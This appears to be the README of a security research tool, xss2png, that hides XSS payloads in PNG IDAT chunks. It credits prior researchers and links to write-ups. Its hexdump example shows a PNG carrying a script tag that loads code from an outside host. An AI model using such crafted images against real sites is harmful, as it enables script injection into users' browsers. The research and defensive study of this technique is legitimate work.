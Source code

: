 # xss2png
PNG IDAT chunks XSS payload generator


### Credits

fin1te  
Adam Logue  
huntergregal  
IDontPlayDarts  
Masato Kinugawa  
Nathaniel McHugh

### Relevant posts

06-2012 [Encoding Web Shells in PNG IDAT chunks](https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/)

11-2015 [Bug-hunter's Sorrow](https://www.slideshare.net/masatokinugawa/avtokyo-bug-hunters-sorrow-en)

01-2016 [An XSS on Facebook via PNGs & Wonky Content Types](https://whitton.io/articles/xss-on-facebook-via-png-content-types/)

03-2016 [Revisiting XSS payloads in PNG IDAT chunks](https://www.adamlogue.com/revisiting-xss-payloads-in-png-idat-chunks/)

### Other tools

[PNG-IDAT-chunks](https://github.com/vavkamil/old-repos-backup/tree/master/PNG-IDAT-chunks-master)

[PNG-IDAT-Payload-Generator](https://github.com/huntergregal/PNG-IDAT-Payload-Generator)

### Stack Overflow

[PHP shell on PNG's IDAT Chunk](https://stackoverflow.com/questions/49144776/php-shell-on-pngs-idat-chunk)

### Example

```
vavkamil@localhost:~/Documents/Python/xss2png$ hexdump -c xss.png 
0000000 211   P   N   G  \r  \n 032  \n  \0  \0  \0  \r   I   H   D   R
0000010  \0  \0  \0      \0  \0  \0      \b 002  \0  \0  \0   � 030   �
0000020   �  \0  \0  \0   y   I   D   A   T   x 234   c   �   <   S   C
0000030   R   I   P   T       S   R   C   =   \   \   X   S   S   .   V
0000040   A   V   K   A   M   I   L   .   C   Z   >   <   /   S   C   R
0000050   I   P   T   >       �   �   � 031   �   �   �   =   s   3   �
0000060 025   �   K   � 217 017   _   s   �   �   �   �   �   �   ?   �
0000070 227   _   �   X   1   �   �  \t   �   �   ~   �   �   �   g   o
0000080   4   �   �   v   �   3   2   2 214 202   Q   0  \n   F   �   (
0000090 030 005   �   ` 024 214 202   Q   0  \n 206 034  \0  \0   4   �
00000a0   % 002 021   �   �   �  \0  \0  \0  \0   I   E   N   D   �   B
00000b0   ` 202                                                        
00000b2
````
